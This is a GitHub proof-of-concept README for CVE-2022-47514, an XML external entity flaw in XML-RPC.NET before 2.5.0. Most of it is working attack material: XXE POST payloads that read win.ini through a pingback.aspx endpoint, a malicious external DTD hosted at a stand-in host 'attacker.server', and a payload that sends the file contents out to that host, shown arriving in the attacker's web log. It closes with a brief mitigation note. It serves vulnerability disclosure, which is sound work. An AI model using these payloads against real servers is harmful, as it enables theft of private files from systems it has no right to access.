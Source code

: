 # [CVE-2022-47514] Proof of Concept 
**CVE (+Exploit) Author:** Farzan Karimi

**CVE Summary:**  An XML external entity (XXE) injection vulnerability in http://XML-RPC.NET before 2.5.0 allows remote authenticated users to conduct server-side request forgery (SSRF) attacks, as demonstrated by a pingback.aspx POST request. While the POST response initially appears to be a limited XXE file enumeration vulnerability, it can be elevated to full file exfiltration using an external DTD, hosted by a proxy server. Hence the CVE name, proXXE. :)

**CVE Details:** https://cve.mitre.org/cgi-bin/cvename.cgi?name=2022-47514

# PoC for CookComputing XML-RPC.NET XXE <2.5.0 [proXXE]
1. Identify a vulnerable pingback.aspx endpoint. Identifying pingback endpoints with "CookComputing" <2.5 version footers tend to be strong signals.

![xml-rpc-1](https://user-images.githubusercontent.com/3679232/207168120-9465cd3d-2f3d-4ae0-b308-090de2b2501f.png)

2. Leverage the following XXE POST payload:

```
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM  
"file://c:/windows/win.ini">]><foo>&xxe;</foo> 
```

3. Request a non-existent file on the remote server (e.g. "winFAKE.ini")

![xml-rpc-2](https://user-images.githubusercontent.com/3679232/207168416-9c801f2f-27ca-47c4-a5df-a4f66af98a58.png)

4. Request an existent file on the remote server (e.g. "win.ini"). Note the error message is different when requesting access to an existing file. This validates our XXE is working as intended.

![xml-rpc-3](https://user-images.githubusercontent.com/3679232/207167024-7338126f-6736-4f14-9a64-b6a0ecc7417e.png)

# 12/29 Update: File Exfiltration

*Summary:* Some XXEs don't directly return file contents in HTTP server responses. These cases don't actually demonstrate the true impact of exploitation, or the ability to exfiltrate file data. The following steps demonstrate how an attacker can still achieve file exfiltration via XXE on XML-RPC.NET by hosting a malicious DTD on a system they control, and then invoke the external DTD from within the in-band XXE payload. 

5. Host a malicious DTD on a file server the attacker controls. The system should host a malicious XML, containing:

```
<!ENTITY % meta "<!ENTITY serverfile SYSTEM 'https://attacker.server/public/evil.xml?r=%winfile;'>">  
%meta; 

```

When this XML document is parsed, the token &winfile; will be replaced with the contents of the win.ini file of the system where the parsing took place. The entity “winfile” in this XML document is an example of an external entity since it’s read from a separate resource. In cases where user-controlled XML is parsed on a server and the XML is then reflected to the user, this can allow malicious users to see the contents of privileged files on the server itself.

6. Craft the POST payload to post the entity as a variable to your server, as so:

```
<?xml version="1.0"?> 

<!DOCTYPE doc PUBLIC "blah" "https://attacker.server/public/evil.xml" [ 
  <!ENTITY % winfile SYSTEM "file://c:/windows/win.ini"> 
]> 

<doc> 
  &serverfile; 
</doc> 
```

Burp request:
![xxe-exfil-payload](https://user-images.githubusercontent.com/3679232/210012497-d0ed37f8-3e95-4231-971d-03a83629c1f8.png)


7. Because the parameter entity token is being used in a normal literal which then composes a system literal, it is parsed and expanded. This makes a request to a URL like:

```
http://www.attacker.server/?r=;%20for%2016-bit%20app%20support%0D%0A%5Bfonts%5D%0D%0A%5Bextensions%5D%0D%0A%5Bmci%20extensions%5D%0D%0A%5Bfiles%5D%0D%0A%5BMail%5D%0D%0AMAPI=1%0D%0A%5BMCI%20Extensions.BAK%5D%0D%0Am2v=MPEGVideo%0D%0Amod=MPEGVideo
```

And the targetted file (e.g. win.ini) is exfiltrated and written to the attacker's web log:

![xxe-data-exfil](https://user-images.githubusercontent.com/3679232/210012160-eab20862-cd15-4c6a-aa29-41001ec17519.png)

Note: if using Azure to host your evil XML (external DTD), it may take time for the file to appear in the Azure web logs. Based on experience, replaying the request multiple times may trigger Azure garbage collection to update the logs sooner.

# Mitigation
Installations using a version prior to version 2.5.0 should update to version 2.5.0. This mitigation disables XML entity expansion.
